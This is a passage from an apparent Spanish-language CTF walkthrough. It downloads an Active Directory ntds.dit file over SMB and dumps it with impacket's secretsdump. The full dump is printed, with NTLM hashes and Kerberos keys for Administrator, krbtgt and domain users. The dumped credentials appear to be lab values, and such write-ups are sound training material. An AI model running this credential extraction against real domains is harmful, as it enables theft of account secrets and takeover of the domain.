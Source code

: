 Descargamos el archivo: 

```
smb: \Active Directory\> get ntds.dit
```

Dumpeamos los hashes con `impacket-secretsdump`

```bash
secretsdump.py -ntds ntds.dit -system system LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:73410f03554a21fb0421376de7f01d5fe401b8735d4aa9d480ac1c1cdd9dc0c8
Administrator:aes128-cts-hmac-sha1-96:b4fc11e40a842fff6825e93952630ba2
Administrator:des-cbc-md5:80861f1a80f1232f
RESOURCEDC$:aes256-cts-hmac-sha1-96:b97344a63d83f985698a420055aa8ab4194e3bef27b17a8f79c25d18a308b2a4
RESOURCEDC$:aes128-cts-hmac-sha1-96:27ea2c704e75c6d786cf7e8ca90e0a6a
RESOURCEDC$:des-cbc-md5:ab089e317a161cc1
krbtgt:aes256-cts-hmac-sha1-96:12b5d40410eb374b6b839ba6b59382cfbe2f66bd2e238c18d4fb409f4a8ac7c5
krbtgt:aes128-cts-hmac-sha1-96:3165b2a56efb5730cfd34f2df472631a
krbtgt:des-cbc-md5:f1b602194f3713f8
M.Mason:aes256-cts-hmac-sha1-96:21e5d6f67736d60430facb0d2d93c8f1ab02da0a4d4fe95cf51554422606cb04
M.Mason:aes128-cts-hmac-sha1-96:99d5ca7207ce4c406c811194890785b9
M.Mason:des-cbc-md5:268501b50e0bf47c
K.Keen:aes256-cts-hmac-sha1-96:9a6230a64b4fe7ca8cfd29f46d1e4e3484240859cfacd7f67310b40b8c43eb6f
K.Keen:aes128-cts-hmac-sha1-96:e767891c7f02fdf7c1d938b7835b0115
K.Keen:des-cbc-md5:572cce13b38ce6da
L.Livingstone:aes256-cts-hmac-sha1-96:cd8a547ac158c0116575b0b5e88c10aac57b1a2d42e2ae330669a89417db9e8f
L.Livingstone:aes128-cts-hmac-sha1-96:1dec73e935e57e4f431ac9010d7ce6f6
L.Livingstone:des-cbc-md5:bf01fb23d0e6d0ab
J.Johnson:aes256-cts-hmac-sha1-96:0452f421573ac15a0f23ade5ca0d6eada06ae85f0b7eb27fe54596e887c41bd6
J.Johnson:aes128-cts-hmac-sha1-96:c438ef912271dbbfc83ea65d6f5fb087
J.Johnson:des-cbc-md5:ea01d3d69d7c57f4
V.Ventz:aes256-cts-hmac-sha1-96:4951bb2bfbb0ffad425d4de2353307aa680ae05d7b22c3574c221da2cfb6d28c
V.Ventz:aes128-cts-hmac-sha1-96:ea815fe7c1112385423668bb17d3f51d
V.Ventz:des-cbc-md5:4af77a3d1cf7c480
S.Swanson:aes256-cts-hmac-sha1-96:8a5d49e4bfdb26b6fb1186ccc80950d01d51e11d3c2cda1635a0d3321efb0085
S.Swanson:aes128-cts-hmac-sha1-96:6c5699aaa888eb4ec2bf1f4b1d25ec4a
S.Swanson:des-cbc-md5:5d37583eae1f2f34
P.Parker:aes256-cts-hmac-sha1-96:e548797e7c4249ff38f5498771f6914ae54cf54ec8c69366d353ca8aaddd97cb
P.Parker:aes128-cts-hmac-sha1-96:e71c552013df33c9e42deb6e375f6230
P.Parker:des-cbc-md5:083b37079dcd764f
```
